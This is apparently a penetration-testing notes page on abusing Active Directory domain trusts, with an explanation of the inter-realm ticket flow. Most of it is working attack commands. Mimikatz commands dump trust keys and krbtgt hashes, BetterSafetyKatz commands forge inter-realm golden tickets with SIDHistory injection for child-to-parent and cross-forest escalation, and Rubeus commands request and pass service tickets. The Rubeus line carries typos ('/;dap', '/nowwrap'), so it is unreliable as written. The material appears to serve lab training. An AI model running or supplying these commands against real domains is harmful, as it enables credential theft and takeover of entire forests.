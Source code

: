 # Trusts

## Trust Flow

The Diagram below shows how Client from trusted domain can ask for access to other Domain's service.\\

We can see that in order to allow access to the service hosted on Domain B, a TGT is returned within a TGS-REP signed with the Inter-Realm Trust Key.

<img src="../../.gitbook/assets/file.excalidraw (2).svg" alt="" class="gitbook-drawing">

## Exploitation

It is possible to exploit the TGS REQ (marked red in the diagram above) by forging new TGT using the trust key. (SIDHistory)

### Get the trust key

The trust key is required to forge the Inter-Realm TGT.

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

### Forge the Inter-Realm TGT

Note that krbtgt can be used instead of the trust key.

{% code overflow="wrap" %}
```powershell
# Child to parent 
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /rc4:e9ab2e57f6397c19b62476e98e9521ac /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"

# Using krbtgt hash - No need to request for tgs later
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

# Across Forest
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /rc4:2756bdf7dd8ba8e9c40fe60f654115a0 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\trust_forest_tkt.kirbi" "exit" 
```
{% endcode %}

| Options   | Description                                      |
| --------- | ------------------------------------------------ |
| /domain:  | FQDN of the current domain                       |
| /sid:     | SID of the current domain                        |
| /sids     | SID to be injected to the SID history            |
| /rc4:     | RC4 of the trust key                             |
| /krbtgt:  | krbtgt hash can be used instead of the Trust Key |
| /user:    | User to impersonate                              |
| /service: | Target service in the parent domain              |
| /target:  | FQDN of the parent domain                        |
| /ticket   | Path to save the ticket                          |

{% code overflow="wrap" %}
```powershell
# Same can be done with Rubeus
Rubeus.exe evasive-silver /service:krbtgt/dollarcorp.moneycorp.local /rc4:<hash> /sid:<sid> /sids:<sids> /;dap /user:Administrator /nowwrap
```
{% endcode %}

### Request the TGS and pass it

{% code overflow="wrap" %}
```powershell
# Forge the ticket
Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorpdc.moneycorp.local /ptt
```
{% endcode %}
